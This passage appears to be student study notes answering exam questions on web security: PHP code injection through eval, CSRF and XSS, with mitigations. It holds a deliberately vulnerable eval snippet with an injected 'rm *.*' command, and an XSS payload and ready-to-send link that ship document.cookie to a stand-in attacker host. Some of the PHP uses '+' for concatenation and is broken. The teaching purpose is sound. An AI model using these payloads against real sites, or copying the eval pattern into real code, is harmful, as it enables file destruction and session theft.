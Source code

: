   >   <?php
  >   $in=$_GET['calc']; //10+1;system("rm *.*")
  >   eval('$result= '+$in+';'); //eval ($result = 10+1;system("rm *.*"););
  >   ?>
  >   ```
  >
  > The main mitigation for both scenario is using a **strong Access Control Policy.**

* What is a CSRF attack? Give an high level description of how to mount it and the main mitigation measures

  > A CSRF Attack is a **Cross Site Request Forgery** attack.
  >
  > Suppose we have site `bank.com`, this site uses a simple form POST to send money from one to another.
  >
  > After loggin in, i visit(using another tab), `sitosicuro.biz`.
  >
  > `sitosicuro.biz`, using background JS(AJAX), as soon as i visit the webpage is sending a post request to `bank.com` to pay `Mario Rossi` with `100k`.
  >
  > The browser, using JS and my authentication cookie, will send the request and the website will transfer money from my account to Mario Rossi account, without even noticing.
  >
  >
  >
  > A **possibile mitigation** is inserting a one-time token in the FORM POST request in the `bank.com` site. 
  >
  > This eludes Same Origin Policy because it won't read data, it's sending data from another website.

* What is an XSS attack? How it's related to the Same Origin Policy? Give an high level description of how to mount it and the main mitigation measures

  > An XSS attack is a Cross Site Scripting Attack. 
  >
  > Suppose we have `site.com/search.php?q=`. This website, whatever i type in to search, is going to write: 
  >
  > ```php
  > <?php
  >     echo "Here your result for"+$_GET['q'];
  > ?>
  > ```
  >
  > here i can type:
  >
  > ```html
  > <script>
  > 	window.open("http://mymalicioussite.com/?cookie="+document.cookie)
  > </script>
  > ```
  >
  > If it works, i'll send my authentication cookie to another website.
  >
  > I can give this link : 
  >
  > `site.com/search.php?q=<script>window.open("http://mymalicioussite.com/?cookie="+document.cookie)</script>`
  >
  > to someone and steal his/her cookies!
  >
  >
  >